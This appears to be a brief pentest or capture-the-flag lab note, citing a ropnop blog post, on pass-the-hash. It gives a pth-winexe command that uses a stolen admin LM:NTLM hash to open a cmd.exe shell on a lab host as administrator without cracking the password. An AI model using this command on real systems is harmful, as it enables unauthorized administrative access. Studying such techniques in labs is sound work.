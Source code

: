 [Practical Usage of NTLM Hashes - ropnop blog](https://blog.ropnop.com/practical-usage-of-ntlm-hashes/#long-live-pth)

Use the full admin hash with pth-winexe to spawn a shell running as admin without needing to crack their password. 
Remember the full hash includes **both the LM and NTLM hash**, separated by a colon:

```
pth-winexe -U 'admin%hash' //10.10.181.132 cmd.exe
```